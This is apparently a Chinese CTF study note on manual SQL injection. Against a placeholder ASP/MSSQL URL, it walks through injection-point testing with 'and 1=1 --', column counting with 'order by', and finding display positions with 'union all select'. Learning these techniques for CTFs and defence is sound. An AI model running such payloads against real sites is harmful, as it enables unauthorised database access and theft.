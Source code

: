 #CTF-SQL注入 
[sqlmap跑sqli_labs](https://blog.csdn.net/qq_57223070/article/details/129189398)
[榜样的sql笔记](https://blog.csdn.net/eastmount/category_9183790_2.html)
[目录](https://www.imapbox.com/index.php/2020/06/05/%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8%E8%87%AA%E5%AD%A6%E7%AF%87%E5%85%AB%E5%8D%81%E4%BA%8C-whuctf%E4%B9%8B%E9%9A%90%E5%86%99%E5%92%8C%E9%80%86%E5%90%91%E7%B1%BB%E8%A7%A3%E9%A2%98%E6%80%9D%E8%B7%AFwp/)
# 一、SQL手工注入
下面通过一个简单的例子从数据库原理知识解读SQL注入攻防原理，内容比较简单。假设存在一个网址能正常显示内容，其数据库是MSSQL，网站为ASP。
- ==http://xxxxx/show.asp?code=115==
  对应的后台SQL语句可能如下：
- `select … from table where code=‘115’ and xxxx;
## **第一步，数据库如何判断注入点**  
判断注入点的方法很多，比如show.asp?code=115’ 加单引号，show.asp?code=115-1 减1，这里介绍一个经典的方法。
- ==http://xxxxx/show.asp?code=115’ and 1=1 - - (正常显示)==  
    对应的SQL语句：  
    `select … from table where code=‘115’ and 1=1 - - and xxxx;  
    其中，单引号(’)匹配code='115，然后and连接，1=1恒成立，SQL注释(- -)掉后面语句。
- ==http://xxxxx/show.asp?code=115’ and 1=2 - - (错误显示)==  
    对应的SQL语句：  
    `select … from table where code=‘115’ and 1=2 - - and xxxx;` 
    单引号(’)匹配code='115，然后and连接，1=2恒错误，注释(–)掉后面语句。
PS：注释（- -）中间加了个空格，否则markdown会显示一条横线。
---
## **第二步，数据库如何判断字段总数 order by**  
基本方法如下：

- ==http://xxxxx/show.asp?code=115’ order by 1 - - (正常显示)==  
    对应的SQL语句：  
    `select … from table where code=‘115’ order by 1 – and xxxx;  
    按照1个字段进行排序，正常显示表示该URL对应的SQL语句至少一个字段。
    
- ==http://xxxxx/show.asp?code=115’ order by 10 - - (正常显示)==  
    对应的SQL语句：  
    `select … from table where code=‘115’ order by 10 - - and xxxx;` 
    依次按照字段增加往上进行排序，直至order by 11提示错误，此时表示共10个字段。
    
- ==http://xxxxx/show.asp?code=115’ order by 11 - - (错误显示)==

---
## **第三步，数据库获取显示位，通过union实现**  
在得到字段个数后，需要获取字段位置，则使用union或union all。其中union表示将两个select结果整体显示，并合并相同的结果，union all显示全部结果。例如：
![c9990857a4324bf58318f04407e56347](https://github.com/user-attachments/assets/bd701f01-6b80-4914-a24d-fbc3273dd042)

具体方法如下：

- `http://xxxxx/show.asp?code=115’ union all select null,…,null - - 
    正常显示，共10个null，表示通配符，如果9个null会报错，需对应10个字段。
- `==http://xxxxx/show.asp?code=115’ union all select 1,…,null - -==  
    依次替换成数字，测试哪几个字段有结果，如果报错则替换回null。最终的结果为：  
    **show.asp?code=115’ union all select 1,null,3,null,null,6,7,8,9,10 - -**  
    对应的SQL语句为：  
    **select … from table where code=‘115’ union all select 1,null,3,null,null,6,7,8,9,10 - - xxxx;**
    